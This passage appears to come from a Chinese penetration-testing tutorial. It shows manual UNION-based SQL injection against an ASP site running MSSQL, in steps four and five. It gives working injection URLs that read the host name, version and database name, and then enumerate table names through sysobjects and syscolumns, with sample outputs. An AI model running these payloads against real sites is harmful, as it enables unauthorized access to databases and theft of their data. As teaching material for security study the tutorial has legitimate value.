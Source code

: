 - `http://xxxxx/show.asp?code=-1’ union all select 1,…,null - -  
    然后将数字115替换成-1，一个不存在的界面，则会显示如下所示结果，可以看到附件显示对应的值7、8、9，再想办法将我们需要的结果在这里显示即可，这些数据都是从后台数据库中查询出来的。
    

![7628b66a82974195842fcf44705f03ed](https://github.com/user-attachments/assets/2d674df8-bb8b-4e90-bb8d-d85ecf4c9ad8)



---
## **第四步，数据库显示错误网页及对应数据db_name**  
该网站使用的数据库为MSSQL，则一定特定的字段需要知道：

- **host_name()**：连接数据库服务器的计算机名称
- **@@version**：获取数据库版本号
- **db_name()**：数据库的库名称
- **@@servername**：当前数据库计算机的名称=host_name()
- ==http://xxxxx/show.asp?code=-1’ union all select 1,null,3,null,null,6,host_name(),@@version,db_name(),10 - -==
    
输出结果如下所示：
- 附件1：AYD
- 附件2：Microsoft SQL Server…
- 附件3：ahykd_new
其中数据库的名称就是ahykd_new，接下来相同的道理获取数据库所有表及列。

---
## **第五步，数据库获取表名及列名，Python爬虫引入**  
SQL Server自带系统对象表，当前数据库所有字段。
- sysobjects 表名
- syscolumns 列名
其中，name表示对象名（表名），id表示表编号，type表示对象类型，其值为U表示用户表，S表示系统表，C约束，PK主键等。
sysobjects 和 syscolumns 之间以id互相对应，一个表名在sysobjects得到id后可以在syscolumns找到它的列名。重点知识：
```
- 查看所有表名语句
    select name from sysobjects where type=‘U’;
- 询表table1的所有字段名称 
    select name from syscolumns where id=object_id(‘table1’)；
```
具体渗透方法如下：
```

- http://xxxxx/show.asp?code=-1’ union all  
    select 1,null,3,null,null,6,7,8,  
    (select top 1 name from sysobjects where type=‘U’),10 - -
```
此时输出结果如下所示：
- 附件1：7
- 附件2：8
- 附件3：kc_jxjd
其中top 1 name用于输出1个字段（相当于MySQL使用limit 1），sysobjects中u为用户表，count(*)可以统计总共87个表。
**PS：问大家一个问题，现在是获取1个表，那么如何获取其他表呢？**
- ==http://xxxxx/show.asp?code=-1’ union all  
    select 1,null,3,null,null,6,7,8, (select top 1 name from  
    (select top 2 name from sysobjects where type=‘U’ order by desc) a  
    order by 1 asc),10 - -==

